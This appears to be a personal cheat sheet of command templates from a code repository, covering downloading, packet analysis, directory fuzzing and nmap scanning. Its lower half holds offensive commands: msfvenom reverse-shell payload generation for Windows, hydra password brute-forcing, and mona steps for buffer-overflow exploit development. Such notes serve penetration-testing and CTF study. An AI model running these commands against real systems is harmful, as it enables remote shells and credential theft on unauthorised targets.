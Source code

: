 # Command-Templates
## Just a few template commands to copy because I'm forgetful

### wget (Downloading a directory)
```
wget -r -np -nH --cut-dirs=3 -R index.html <DIRECTORY>
```

### yt-dlp (Downloading the best quality from a file)
```
yt-dlp  --merge-output-format mp4 -f "bestvideo+bestaudio[ext=m4a]/best" -a likes.txt
```

### tshark (Extracting dns records)
```
tshark -r <PACKET_FILE> -Tfields -e dns.qry.name -Y "ip.src_host==<IP_ADDRESS>" > <TXT_FILE>
```

### ffuf (Recursive directory scanning)
```
ffuf -w <WORDLIST> -u http://<IP_ADDRESS>/FUZZ -o <OUTPUT_FILE> --recursion -fc 403
```

### nmap (Basic network scanning)

- Runs nmap default scripts
- Scan service versions
- Outputs file in normal format
- Disable host discovery
- Verbose

```
nmap -sC -sV --oN <OUTPUT_FILE> -vv -Pn <IP_ADDRESS>
```

### msfvenom (Simple Windows Payload)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LISTENING_IP_ADDRESS> LPORT=<LISTENING_PORT> -f exe -e x86/shikata_ga_nai -o <OUTPUT_FILE>
```

### msfvenom (Simple Windows Payload Shell)
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f py -b [bad characters]
```

### hydra (brute forcing)
```
hydra -l <USERNAME> -P <PASSWORD_LIST> <SERVICE>://<IP_ADDRESS>
```

### hydra (http-post-form)
```
hydra -l <USERNAME> -P <PASSWORD_LIST> http-post-form <IP_ADDRESS> "<DIRECTORY> : <RAW_POST_REQUEST> <ERROR_MESSAGE>"
```

### Immunity Debugger (Finding bad characters)
```
!mona bytearray -b "\x00"
!mona compare -f <binary file> -a <address>
```

### Immunity Debugger (Finding a jump point)
```
!mona jmp -r esp -cpb [bad characters]
```

